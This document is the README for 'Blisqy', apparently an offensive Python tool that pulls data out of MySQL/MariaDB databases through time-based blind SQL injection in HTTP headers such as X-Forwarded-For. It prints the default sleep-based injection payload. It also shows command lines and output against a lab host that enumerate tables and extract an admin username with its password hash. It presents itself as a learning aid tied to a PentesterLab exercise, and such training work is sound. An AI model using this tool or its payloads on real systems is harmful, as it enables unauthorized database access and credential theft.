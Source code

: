 # Blisqy
A slow data siphon for MySQL/MariaDB using bitwise operation on printable ASCII characters, via a blind-SQL injection.

**PS:** Just another way to learn and understand SQL injections - how to manually hunt them down. What happens under the hood of SQLi tools.

## Usage
```bash
USAGE:
blisqy.py --server <Web Server> --port <port> --header <vulnerable header> --hvalue <header value> 
          --inject <point of injection>  --payload <custom sql payload> --dig <yes/no>

Options:
  -h, --help            show this help message and exit
  --server=WEBSERVER    Specify host (web server) IP
  --port=PORT           Specify port
  --header=VULNHEADER   Provide a vulnerable HTTP Header
  --hvalue=HEADERVALUE  Specify the value for the vulnerable header
  --inject=INJECTION    Provide where to inject Sqli payload
  --payload=PAYLOAD     Provide SQL statment/query to inject as payload
  --dig=DIGGER          Automatic Mysql-Schema enumeration (takes time!)
  --sleeptime=SLEEP     Sleep-Time for blind-SQLi query (default : 0.9)
```
## To Do :
* Intergrate an inteligent Fuzzer for hunting SQL injection vulnerabrity(ies) on HTTP Headers and Web Elements
* Support Blind-SQLi enumeration of URLs and WEB Elements apart from HTTP Headers.


## Assumptions :

At the moment, Blisqy assumes you have identified a potential Blind Sql injection vulnerability on a Webserver as demonstrated on [Pentester-Lab (From SQL Injection to Shell II)](https://pentesterlab.com/exercises/from_sqli_to_shell_II/course)

```bash
So point of injection BY DEFAULT is ---> 'or if((%s),sleep(0.9),0) and '1'='1

In other words, this argument is set.
--inject <point of injection> 
```

## Example :
**Vulnerable header is "X-Forwarded-For" and using --dig will enumerate the MySQL DB but takes time**

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" --dig yes --sleeptime 0.9
[+] Getting Current Database : 
[-] photoblog


[+] Getting  number of TABLES from schema
[-] 4


[+] Getting  all TABLE NAMES from Schema
[-] categories
[-] pictures
[-] stats
[-] users


[+] Getting Columns and Rows from Schema
Preparing to get  all Columns in Table : categories
=====================================================


[+] Getting   Number of Columns in a categories .
[-] 2
[+] Getting  all Column Names in Table : categories .
id
title
Number of Rows on Table : categories 
3
Preparing to get  all Columns in Table : pictures 
=====================================================


[+] Getting Number of Columns in Table : pictures
[-] 4
[+] Getting  all Column Names in Table : pictures
cat
id
img
title
Number of Rows on Table : pictures 
3
Preparing to get  all Columns in Table : stats
=====================================================


[+] Getting   Number of Columns in a stats .
[-] 2
[+] Getting  all Column Names in Table : stats .
count
ip
Number of Rows on Table : stats 
1
Preparing to get  all Columns in Table : users .
=====================================================


[+] Getting   Number of Columns in a users
[-] 3
[+] Getting  all Column Names in Table : users .
id
login
password
Number of Rows on Table : users 
1

```
**With the above knowledge craft a niffty custom payload**
```bash
./blisqy.py --server 192.168.56.101 --port 80 --header X-Forwarded-For --hvalue "lol"  
            --payload "select concat(id,':',login,':',password) from users order by id desc limit 1"  
            --sleeptime 0.9

Extracting Data from ====> 192.168.56.101 : 80 
Current Payload : select concat(id,':',login,':',password) from users order by id desc limit 1
==================================================================

1:admin:8efe310f9ab3efeae8d410a8e0166eb2
```

**Vulnerable header is "X-Forwarded-For" and using --payload will run a custom SQL query on the MySQL DB**
```bash
./blisqy.py --server 192.168.56.101 --port 80 --header X-Forwarded-For --hvalue "lol"  
            --payload "select @@hostname" --sleeptime 0.8

Extracting Data from ====> 192.168.56.101 : 80 
Current Payload : select @@hostname
==================================================================
debian
```

## Very Imporntant
Always make sure you have fine tuned the `--sleeptime` to a value that resonates with your environment and network lantency.... Otherwise you'll be toased!

